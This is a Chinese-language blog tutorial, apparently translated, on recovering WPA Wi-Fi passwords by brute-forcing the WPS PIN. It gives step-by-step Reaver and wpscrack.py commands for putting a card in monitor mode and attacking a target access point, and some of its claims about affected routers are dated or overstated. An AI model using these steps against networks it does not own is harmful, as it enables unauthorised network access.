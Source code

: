 ```yaml
---
layout: post
title: "通过破解WPS PIN Hack WPA WIFI密码"
description: "破解WEP"
categories: [无线安全]
tags: [无线安全]
redirect_from:
- /2017/11/26/
---
```


WPS或者说WiFi Protected Setup（WiFi保护设置）的一个漏洞已经被TNS（译者注：一家安全公司）发现了一年多了，最终开发并验证出了利用代码。TNS，漏洞发现者和.braindump的Stefan都开发了他们各自的“reaver”和“wpscrack”程序来利用WPS的漏洞。 从这个漏洞攻击中，一旦接入点WPS的攻击启动，通常需要2-10个小时（取决于你使用哪个程序，）WPA密码几乎可以立即以明文方式恢复。

这种攻击通过对静态WPS PIN进行智能暴力破解来攻破WPS。通过猜测PIN码，路由器实际上会返回，无论前四位（8位）是否正确。然后，最终数是用于满足算法的检查数。这可以被用来暴力破解WPS PIN，并可以在非常短的时间内恢复WPA密码，而不是在WPA标准里攻击。

在这篇文章中，让我们来看看如何使用这两个工具来破解WPS。到目前为止，还没有路由器可以安全地抵御这种攻击，但是没有任何厂商已经做出响应，以及发布固件或采取缓解措施。即使禁用WPS，也会在大多数路由器上实现这种攻击。

## 要求

- 一台计算机（或一台虚拟机）运行了Kali Linux OS。如果你是一个初学者的话，可以买一个我们的[Kali Pi](https://null-byte.wonderhowto.com/how-to/set-up-headless-raspberry-pi-hacking-platform-running-kali-linux-0176182/)，运行在35美元的Raspberry Pi上（译者注：广告...）
- 一台运行WPS的路由器
- 一个可以在监听模式下进行包注入的无线网卡（译者注：又是一段广告...省略了）
- 下列软件（以软件包名安装）：aircrack-ng, python-pycryptopp, python-scapy, libpcap-dev

## 工具

- [Reaver](http://reaver-wps.googlecode.com/files/reaver-1.3.tar.gz)（支持所有路由器）
- [wpscrack](dl.dropbox.com/u/22108808/wpscrack.zip) （快，但是只支持主要品牌的路由器）

## 破解WPS

按照下面选择使用的工具对应的指南进行操作。

### Reaver

1.解压 Reaver

	unzip reaver-1.3.tar.gz

2.改变Reaver地址

	cd reaver-1.3

3.配置，编译和安装应用程序

	./configure && make && sudo make install

4.扫描一个AP并复制它的MAC地址备用

	sudo iwlist scan wlan0

5.设置你的设备为监听模式

	sudo airmon-ng start wlan0

6.运行工具攻击AP

	reaver -i mon0 -b <MA:CA:DD:RE:SS:XX> -vv

7.等，直到完成

这个工具会让这变得很简单

## wpscrack.py

1.使程序可执行

	chmod +x wpscrack.py

2.扫描一个AP并复制它的MAC地址备用

	sudo iwlist scan wlan0

3.获取你的MAC地址备用

	ip link show wlan0 | awk '/ether/ {print $2}'

4.设置你的设备为监听模式

	sudo airmon-ng start wlan0

5.攻击你的AP

	wpscrack.py –iface mon0 –client <your MAC, because you're attacking yourself, right?> –bssid <AP MAC address> --ssid <name of your AP> -v

6.等待胜利

现在，让我们相信在不久的将来我们可以看到大量固件的更新，不然在这个世界会有很多地方陷入麻烦。


